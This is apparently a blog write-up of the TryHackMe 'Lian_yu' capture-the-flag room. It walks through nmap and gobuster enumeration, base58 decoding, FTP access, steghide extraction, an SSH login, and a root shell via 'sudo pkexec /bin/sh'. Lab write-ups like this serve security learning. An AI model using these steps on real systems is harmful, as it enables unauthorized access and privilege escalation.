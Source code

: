 ```yaml
---
title: "TryHackMe - Lyan_yu"
author: Nasrallah
description: ""
date: 2022-05-05 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, steganography]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Lyan_yu](https://tryhackme.com/room/lianyu) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.247.111
Host is up (0.10s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-title: Purgatory
|_http-server-header: Apache
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33339/udp   status
|   100024  1          36579/udp6  status
|   100024  1          39031/tcp6  status
|_  100024  1          54934/tcp   status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We found 4 open ports, let's enumerate the webserver on port 80.

### Web

Navigating to the webpage we see the following.

![](/assets/img/tryhackme/lyanyu/1.png)

It's a story about ARROWVERSE, nothing really useful in this page, let's run a directory scan.

```terminal
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.118.55/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian
===============================================================
[+] Url:                     http://10.10.118.55/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
11:21:49 Starting gobuster in directory enumeration mode
===============================================================
/island               (Status: 301) [Size: 235] [--> http://10.10.118.55/island/]
===============================================================
```

We found **/island** directory, let's navigate to it.

![](/assets/img/tryhackme/lyanyu/2.png)

There is a code word but we can't see it, let's view the source code.

![](/assets/img/tryhackme/lyanyu/3.png)

Great! We got the code, let's save it and continue our enumeration.

Since we got nothing really useful, let's run another directory scan on **/island** page


```Terminal
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.118.55/island/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian
===============================================================
[+] Url:                     http://10.10.118.55/island/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
11:38:25 Starting gobuster in directory enumeration mode
===============================================================
/2100                 (Status: 301) [Size: 240] [--> http://10.10.118.55/island/2100/]
===============================================================
```

We found a directory, let's see what's there.

![](/assets/img/tryhackme/lyanyu/4.png)

We have a youtube video and a question. Let's again view the source code.

![](/assets/img/tryhackme/lyanyu/5.png)

We got a hint that there is a ticket we can get, and it ends with *.ticket*. We can run a gobuster scan and instruct it to add the extension .ticket at the end of every search.


```Terminal
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.118.55/island/2100/ -x ticket
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian
===============================================================
[+] Url:                     http://10.10.118.55/island/2100/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              ticket
[+] Timeout:                 10s
===============================================================
2022/05/10 11:45:02 Starting gobuster in directory enumeration mode
===============================================================
/green_arrow.ticket   (Status: 200) [Size: 71]
===============================================================
```

We found our ticket, let's take a look at it.

![](/assets/img/tryhackme/lyanyu/6.png)

We got what looks like an encoded text, let's go to [CyberChef](https://gchq.github.io/CyberChef/) and decode it.

![](/assets/img/tryhackme/lyanyu/7.png)

We managed to decode it using base58, and it looks like a password.

### FTP

Using the code we found as a username and the password we decoded, let's login to the ftp server and see what's there.

![](/assets/img/tryhackme/lyanyu/8.png)

It looks like we are is vigilante's home directory, unfortunately, there is no *.ssh* directory, but there are some files in forme of images, let's download them to our machine using the command `get filename`

![](/assets/img/tryhackme/lyanyu/9.png)

Now using the command `steghide`, let's try to extract hidden file in the image **aa.jpg**

![](/assets/img/tryhackme/lyanyu/10.png)

Using *password* as a password, we managed to extract two files, one of the files has a password, but we need a username.

Going back to the ftp server, we see that we can navigate freely on the machine, and if we go to **/home** folder, we can see the users there.

![](/assets/img/tryhackme/lyanyu/11.png)

Great! We got our username.


## **Foothold**

Now, let's use the credentials we managed to collect to login with ssh.

![](/assets/img/tryhackme/lyanyu/12.png)

Great! Let's move to privilege escalation.


## **Privilege Escalation**

First, let's check our current privileges on the machine by running `sudo -l`

![](/assets/img/tryhackme/lyanyu/13.png)

We can run the command `pkexec` as root. Let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/pkexec/) to see what we can do.

![](/assets/img/tryhackme/lyanyu/15.png)

We see that we ca run `sudo pkexec /bin/sh` to escalate to root. Let's do it.

![](/assets/img/tryhackme/lyanyu/14.png)

Great! We have successfully rooted this machine.

---


Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

https://gchq.github.io/CyberChef/

https://gtfobins.github.io/gtfobins/pkexec/